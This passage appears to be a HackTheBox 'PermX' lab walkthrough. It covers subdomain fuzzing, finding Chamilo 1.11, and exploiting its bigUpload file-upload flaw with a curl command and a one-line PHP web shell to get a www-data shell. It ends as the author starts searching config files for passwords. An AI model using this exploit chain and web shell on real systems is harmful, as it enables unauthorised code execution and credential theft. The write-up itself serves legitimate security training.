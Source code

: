 ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://permx.htb/ -H "Host:FUZZ.permx.htb" -fw 18

Our scan returns two valid subdomains: lms and www, both of which we will add to our etc/hosts file and visit.
www.permx.htb
lms.permx.htb

While www.permx.htb looks the exact same as permx.htb, and we can confirm this as well, lms.permx.htb looks completely different. The first thing I see on this webpage is the Chamilo E-Learning & Collaboration Software image and I question if this is custom software for this box or public software that could have documented exploits, informational endpoints, and default credentials. I will try some general default credentials like admin:admin and even the password recovery feature to confirm that admin is a valid user.

I will run a directory bust using Feroxbuster

feroxbuster --url http://lms.permx.htb/

and begin picking my way through the most interesting directories. Eventually I come across the         /documentation/ directory and find the version of Chamilo to be 1.11.
http://lms.permx.htb/documentation/

A simple search for "Chamilo 1.11 exploit" reveals a page from Pentest Tools detailing a RCE (Remote Code Execution) exploit. Looking through the first exploit link, someone wrote a whole exploit script for a rather trivial exploit. The entire exploit boils down to one curl command.

curl -F "bigUploadFile=@filenamehere.php" "http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported"

I can tell this site can run PHP by the very thing we are exploiting being a .php extension. I will create a simple rev.php file with the following, allowing us to substitute the cmd option for whatever we desire.

<?php system($_REQUEST['cmd']); ?>

Substitute this file into the command above, and curl tells us that the file has been successfully uploaded. We could explore the exploit details to find the exact file upload path, but browsing from /bigUpload.php back to /inc, back to /bigupload shows the /files directory.

Inside here we find our rev.php file and can intercept this request in Burp Suite to more easily setup and retain our shell.

I will URL encode key characters to avoid any issues with the spaces and special characters.

Back on my box, I have a shell as www-data.

I will do a quick shell upgrade.

python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo; fg
enter
export TERM=xterm-256color
reset (if things look weird)

Before jumping into scanning the box itself, remember that this website has a login page, meaning it stores passwords in one way or another. Most commonly, websites do this by connecting to a database, sometimes using plain text credentials in configuration files to do so. While manually looking through the directories of /var/www/chamilo, I come across the configuration.php file in /chamilo/app/config. Using the grep command below, I quickly look for any references to the string "pass". I pass the-i flag to ignore case sensitivity and using -n to include line numbers, so I know where to go in the file.
